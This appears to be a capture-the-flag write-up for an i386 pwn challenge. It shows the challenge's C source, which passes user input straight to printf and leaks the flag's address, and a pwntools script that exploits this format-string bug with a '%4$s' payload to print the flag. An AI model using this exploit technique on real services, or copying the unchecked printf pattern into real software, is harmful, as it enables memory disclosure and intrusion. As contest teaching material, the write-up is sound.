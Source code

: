 ```yaml
---

title: Bof pcc.nccs_final 2022

author: megachar0x01

date: 2022-08-08

categories: [Pwn, i386, ctf]

---
```


### Purpose : Get The Flag



Checking binary security measures.


<img src="https://i.imgur.com/bMNUHIG.png" alt="img_1">

    
  
Source Code is given. Reading through it we can see that flag is loaded and saved to the flag variable on the stack.Pointer to flag variable is given to us. Later it takes input that is vulnerable to format string. We have to just pass the pointer of flag char given by us and use "%s" to print it


```c

#include <stdio.h>
#include <string.h>

int main(int argc, char* argv) {

        setbuf(stdout, NULL);
        setbuf(stdin, NULL);

        FILE* fptr = fopen("flag.txt", "r");
        char flag[50];

        if (fptr == NULL) {
                printf("\nError reading flag from the file. Please contact TheFlash2k...\n>
                exit(-1);
        }
        fscanf(fptr, "%s", flag);
        fclose(fptr);

        printf("Address of Flag: %x\n", &flag);

        const int SIZE = 50;
        char name[SIZE];
        bzero(name, 0x00);
        printf("Please enter your name: ");
        fgets(name, SIZE, stdin);
        printf("Welcome, %s\n", name);
        printf("Here's some messages that were left for you: ");
        printf(name);
        printf("\n");

        return 0;
}


```

Now it's time to exploit this binary. 

```python
#!/usr/bin/python3
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


exe = './format'; elf = context.binary = ELF(exe, checksec=False);

io = start()
io.recvuntil(b": ")
leak_add = int(io.recvline().strip(b"\n"),16)
payload = b""
payload += p32(leak_add)
payload += b"%4$s"
io.sendlineafter(b"Please enter your name:",payload)
io.recvuntil(b"you: ")
print(io.recvline().strip(b"\n")[4:])
io.close()

```
<img src="https://i.imgur.com/rzjYzYe.png" alt="img_1">
